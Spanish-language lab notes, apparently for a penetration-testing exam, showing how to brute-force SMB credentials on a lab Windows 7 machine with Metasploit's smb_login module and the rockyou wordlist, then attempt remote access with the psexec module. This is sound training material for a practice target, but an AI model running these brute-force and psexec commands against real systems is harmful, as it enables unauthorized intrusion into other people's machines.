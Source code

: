 
---
- TAG: #Exploración #Protocolos #SMB #Metasploit 
----
Seguimos con los ataques al protocolo **SMB** pero esta vez lo estaremos explotando con **MetaSploit**

1. Realizaremos un ataque de fuerza bruta al protocolo **SMB** con **Metasploit**
2. Vamos a ver como iniciar sesión por **PSEXEC** en caso de tener permiso

Asi que de igual manera vamos a necesitar:
1. Una máquina **Kali Linux**
2. Máquina vulnerable de [Windows7](https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view) del laboratorio del profe **Mario**

Una vez hecho esto, nos dirigimos a nuestra máquina Linux y realizamos el siguiente procedimiento:

1. **Arp-scan** para localizar la máquina víctima **Windows7**.
2. **Ping** para ver el tipo de TTL y entender a qué nos enfrentamos.
3. Entramos al **msfconsole**
```bash
msfconsole
```

Ahora que la volvemos a utilizar se deberan dar cuenta lo util que es la herramienta **Metasploit**, ya que nos permite realizar muchas cosas como pivoting, creación de sploits y esta vez haremos el uso de ataque de fuerza bruta

En el panel de **msfconsole** tenemos un modulo llamado **smb__login**

```bash
use auxiliary/scanner/smb/smb_login
```

Mostramos las configuraciones con 

```bash
show options
```

Vemos que por defecto viene el puerto **445** configurado, ahora lo que tenemos que hacer es indicarle nuestro **RHOSTS** de la siguiente manera

```bash
set RHOSTS 1.2.3.4
```

Vemos tambien que esta activado el **VERBOSE**, en el examen es recomendable quitarlo 

```bash
set VERBOSE false
```

En el apartado de **SMBDomain** y **SMBUser** le asignamos el nombre, pero vamos a suponer que no sabemos la contraseña, asi que añadimos el usuario:

```bash
set SMBUser mario
```

Ahora para efectuar el ataque debemos cargar el archivo en **PASS_FILE**

```bash
set PASS_FILE /usr/share/wordlists/rockyou.txt
```

Ejecutamos el comando `run` para empezar el ataque de fuerza bruta:

```bash
run
```

Y listo con esto de igual manera encontraras la contraseña al igual que lo hicimos con hydra, asi que es una gran opcion en caso de que les de problemas **Hydra**

Bien, ahora cuando conseguimos el usuario y la contraseña dentro del protocolo smb hay una cosa que hay que probar es iniciar sesión con **psexec** para poder obtener acceso remoto a la máquina, pero todo depende si la máquina esta configurada con o sin los permisos,, asi que lo intentamos de la siguiente manera 

```bash
use exploit/windows/smb/psexec
```

Vemos sus configuraciones con 

```bash
show options
```

Ahora le asignamos el **RHOSTS**

```bash
set RHOSTS 1.2.3.4
```

Le asignamos el usuario y contraseña

```bash
set SMBUser mario
set SMBPass 123123
```

Si ejecutamos el comando para obtener acceso, en esta ocasión no nos permitirá la conexión ya que esta máquina esta no esta configurada para eso, pero en el examen hay que intentarlo de igual manera para ver si obtenemos acceso.


